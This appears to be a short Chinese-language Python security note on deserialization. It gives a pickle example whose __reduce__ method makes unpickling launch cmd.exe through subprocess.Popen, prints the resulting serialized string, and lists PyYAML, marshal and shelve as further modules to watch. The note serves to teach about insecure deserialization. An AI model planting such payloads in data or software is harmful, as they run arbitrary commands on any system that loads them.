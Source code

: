 反序列化
--------------------------------

pickle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >>> class A(object):
    ...     a = 1
    ...     b = 2
    ...     def __reduce__(self):
    ...         return (subprocess.Popen, (('cmd.exe',),))
    ...
    >>> cPickle.dumps(A())
    "csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- PyYAML
- marshal
- shelve
